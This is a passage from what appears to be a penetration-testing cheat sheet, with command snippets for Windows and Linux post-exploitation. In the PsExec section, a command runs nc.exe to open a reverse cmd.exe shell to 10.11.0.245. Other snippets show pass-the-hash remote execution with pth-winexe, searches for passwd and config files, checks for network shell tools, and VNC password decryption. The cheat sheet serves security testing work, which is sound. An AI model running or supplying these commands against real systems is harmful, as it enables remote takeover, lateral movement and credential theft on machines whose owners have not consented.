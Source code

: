 ```bash
# Requires interactive console
runas /user:userName cmd.exe
```

#### PsExec <a id="psexec"></a>

```bash
psexec -accepteula -u user -p password cmd /c c:\temp\nc.exe 10.11.0.245 80 -e cmd.exe
```

#### Pth-WinExe <a id="pth-winexe"></a>

```bash
pth-winexe -U user%pass --runas=user%pass //10.1.1.1 cmd.exe
```

### Recursively Find Hidden Files: Windows <a id="recursively-find-hidden-files-windows"></a>

```bash
dir /A:H /s "c:\program files"
```

### General File Search <a id="general-file-search"></a>

```bash
# Query the local db for a quick file find. Run updatedb before executing locate.
locate passwd ​

# Show which file would be executed in the current environment, depending on $PATH environment variable;
which nc wget curl php perl python netcat tftp telnet ftp​

# Search for *.conf (case-insensitive) files recursively starting with /etc;
find /etc -iname *.conf
```

## Post-Exploitation & Maintaining Access <a id="post-exploitation-and-maintaining-access"></a>

### Browsing Registry Hives <a id="browsing-registry-hives"></a>

```bash
hivesh /registry/file
```

### Decrypting VNC Password <a id="decrypting-vnc-password"></a>

```bash
wine vncpwdump.exe -k key
```
